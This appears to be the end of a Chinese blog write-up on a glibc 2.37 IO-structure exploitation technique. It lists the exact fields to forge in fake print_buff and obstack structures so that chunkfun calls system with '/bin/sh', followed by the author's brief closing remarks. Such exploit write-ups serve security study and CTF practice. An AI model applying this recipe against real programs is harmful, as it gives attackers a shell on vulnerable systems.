 对`print_buff`结构体的设置如下：地址为B

- `print_buff->write_ptr`=`&print_buff+0x30+0x1`，也即***(B+0x8)=B+0x30+0x1**
- `print_buff->write_end`=`&print_buff+0x30+0x1`，也即***(B+0x10)=B+0x30+0x1**
- `print_buff->mode`=`0xb`，也即***(B+0x20)=0xb**
- `print_buff->obstack`=`obstack`，也即***(B+0x28)=C**

对`obstack`结构体的设置如下：地址为C

- `obstack->chunkfun`=`&system`，也即***(C+0x38)=&system**
- `obstack->extra_arg`=`&bin_sh`，也即***(C+0x48)=&bin_sh**
- `obstack->use_extra_arg`=`1`，也即***(C+0x50)=1**

## 总结

> IO的打法越来越花，这次本次利用的是2.37的新的一种结构体，但是不知道GNU看到这篇文章后会不会把2.37的这个新的结构体给删掉，还是有一定的局限性，利用方式比魑魅魍魉简单点，但是比琴瑟琵琶困难
>
> 最近也比较忙，没有时间更新文章，继续努力
